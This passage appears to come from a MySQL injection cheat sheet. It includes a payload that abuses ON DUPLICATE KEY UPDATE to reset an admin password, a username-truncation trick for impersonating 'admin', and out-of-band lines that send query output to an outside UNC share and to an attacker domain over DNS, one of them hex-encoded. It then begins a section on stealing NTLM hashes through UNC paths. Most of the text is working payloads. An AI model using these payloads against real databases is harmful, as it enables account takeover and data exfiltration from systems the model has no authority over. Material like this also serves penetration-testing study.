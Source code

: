 ## MYSQL INSERT

`ON DUPLICATE KEY UPDATE` keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

Inject using payload:

```sql
attacker_dummy@example.com", "P@ssw0rd"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" --
```

The query would look like this:

```sql
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "BCRYPT_HASH"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" -- ", "BCRYPT_HASH_OF_YOUR_PASSWORD_INPUT");
```

This query will insert a row for the user "`attacker_dummy@example.com`". It will also insert a row for the user "`admin@example.com`".

Because this row already exists, the `ON DUPLICATE KEY UPDATE` keyword tells MySQL to update the `password` column of the already existing row to "P@ssw0rd". After this, we can simply authenticate with "`admin@example.com`" and the password "P@ssw0rd".

## MYSQL Truncation

In MYSQL "`admin`" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`

## MYSQL Out of Band

```powershell
SELECT @@version INTO OUTFILE '\\\\192.168.0.100\\temp\\out.txt';
SELECT @@version INTO DUMPFILE '\\\\192.168.0.100\\temp\\out.txt;
```

### DNS Exfiltration

```sql
SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.hacker.site\\a.txt'));
SELECT LOAD_FILE(CONCAT(0x5c5c5c5c,VERSION(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM Hash Stealing

The term "UNC path" refers to the Universal Naming Convention path used to specify the location of resources such as shared files or devices on a network. It is commonly used in Windows environments to access files over a network using a format like `\\server\share\file`.
